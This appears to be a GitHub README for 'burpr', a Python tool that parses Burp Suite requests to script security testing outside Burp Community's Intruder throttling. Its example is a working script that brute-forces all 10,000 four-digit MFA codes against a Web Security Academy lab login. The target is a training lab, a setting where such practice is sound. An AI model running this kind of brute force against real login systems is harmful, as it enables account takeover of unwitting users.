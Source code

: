 # What is it
A Burp Suite request parser, used for aid in assessing application security functionality.

# Why I wrote it
To bypass the throttling 'Burp Suite Community' does to the intruder.

# Usage
Use burpr.py module to parse the Burp Suite copied request. Then use the created object to extract headers and body.

Supports parsing requests as strings and as .txt files.

```python
import burpr

# Load from string
req_from_string = burpr.parse_string(req_string)

# Load from file
req_from_file = burpr.parse_file(req_file_path)

# clone the BurpRequest object
req_clone = burpr.clone(req_from_file)

# modify the header
req_clone.set_header("Cookie", "session=modified_session_cookie")

client = httpx.Client(http2=True)
res = client.post(req.url, headers=req.headers, data=req.body)
```

# Examples
## Brute force broken MFA
```python
import burpr
import httpx
import itertools

burp_request = r"""POST /login2 HTTP/2
Host: xxxx.web-security-academy.net
Cookie: verify=carlos; session=xxxx
Content-Length: 13
Cache-Control: max-age=0
Sec-Ch-Ua: 
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://xxxx.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://xxxx.web-security-academy.net/login2
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

mfa-code=4321
"""

def generate_pin_numbers():
  return [''.join(list([str(digit) for digit in permutation])) 
          for permutation in itertools.product(list(range(0, 10)), repeat=4)]

def brute_force_broken_mfa():
  req = burpr.parse_string(burp_request)
  client = httpx.Client(http2=True)

  for pin in generate_pin_numbers():
    # Modify the mfa-code parameter
    req.set_parameter("mfa-code", pin)

    # Adjust Content-Length to parameter change
    req.prepare()

    # Send the request
    res = client.post(req.url, headers=req.headers, data=req.body)

    print(res.status_code, pin)
    
    if (res.status_code != 200):
      break

brute_force_broken_mfa()
```
